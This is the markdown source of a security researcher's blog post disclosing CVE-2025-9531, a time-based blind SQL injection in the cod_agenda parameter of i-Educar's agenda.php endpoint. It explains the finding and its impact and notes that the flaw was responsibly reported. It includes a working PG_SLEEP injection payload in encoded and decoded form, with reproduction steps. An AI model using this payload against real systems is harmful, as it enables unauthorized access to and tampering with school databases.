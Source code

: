 ```yaml
---
weight: 1
title: "CVE-2025-9531"
date: 2025-08-27T21:29:01+08:00
draft: false
authors: ["Karina"]
description: "How I Found a Time-Based Blind SQL Injection in i-Educar (With Real Delay and PoC)"
featuredImage: "/images/CVE-2025-9531/CVE-2025-9531.png"

tags: ["SQL Injection", "i-Educar", "CVE-2025-9531", "Blind SQLi", "Cybersecurity"]
categories: ["CVE"]
lightgallery: true
license: '<a rel="license external nofollow noopener noreferrer" href="https://creativecommons.org/licenses/by-nc/4.0/" target="_blank">CC BY-NC 4.0</a>'
toc:
  auto: false
---
```


How I Found a **Time-Based Blind SQL Injection** in i-Educar (With Real Delay and PoC).

<!--more-->

> ***🇧🇷 Ler em [Português](http://karinagante.github.io/pt-br/cve-2025-9531).***

## CVE-2025-9531

### Introduction

<p align="justify">While diving into the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> Open-Source project, I uncovered a critical time-based blind SQL Injection vulnerability in the <b>cod_agenda</b> parameter of the <b>agenda.php</b> endpoint. </br> This flaw allows attackers to execute arbitrary SQL queries silently against the backend database, putting data confidentiality, integrity, and availability at risk. </br> After validating the issue using a payload that caused measurable delays in the server's response, I reported it responsibly, and it was officially assigned as <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### What is CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> is a SQL Injection vulnerability in the <b>/intranet/agenda.php</b> endpoint of the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> application. </br> The vulnerable parameter is <b>cod_agenda</b>, which lacks proper input validation. </br> This makes it possible to inject custom SQL queries, including <code>PG_SLEEP()</code> functions that introduce time delays, confirming the flaw via time-based behavior. </p>

### Technical Details

➤ **Vulnerable Endpoint** `/intranet/agenda.php`

➤ **Affected Parameter:** `cod_agenda`

> ➤ **Payload Used (Encoded)**
> ```html
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Used (Decoded)**
> ```html
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

To reproduce the vulnerability:

➤ Access the vulnerable endpoint and click **"Novo Compromisso"** (New Appointment)

➤ Fill in the required fields and click **"Salvar"** (Save)

➤ The system redirects to a URL like:

```html
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Now, modify the `cod_agenda` parameter with the payload:

```html
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">The server will take 5 seconds to respond, confirming that the SQL query was executed successfully.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{<admonition tip Report>}}
You can access the full report and see the complete step-by-step instructions. Here:

{{< fa-icon regular github >}}
***[CVE-2025-9531 Report](https://github.com/KarinaGante/KGSec/blob/main/CVEs/i-educar/CVE-2025-9531.md)***
{{< /admonition >}}

### Impact

This vulnerability can be exploited to:

- Access sensitive data stored in the database;
- Enumerate database schemas, tables, and columns;
- Modify, delete, or insert arbitrary records;
- Steal user credentials and personal information;
- Perform a denial of service (DoS) attack by triggering long query delays;
- In some cases, escalate to Remote Code Execution (RCE).

### Official Sources

The flaw was ethically reported and attributed as:

{{< admonition important References>}} 
{{< fa-icon regular shield >}}
***[CVE-2025-9531 on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[VulDB Entry](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusion

<p align="justify">SQL injection attacks remain one of the most critical threats to web applications, especially when silent and time-based. This discovery demonstrates how a single unvalidated parameter can compromise the entire database behind a platform. </br></br> If you're a developer or security analyst, be aware: <b>even small, seemingly harmless endpoints can hide dangerous flaws.</b></p>

## Credits

***Discovered with 💜 by [Karina Gante](https://karinagante.github.io/).***

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹***
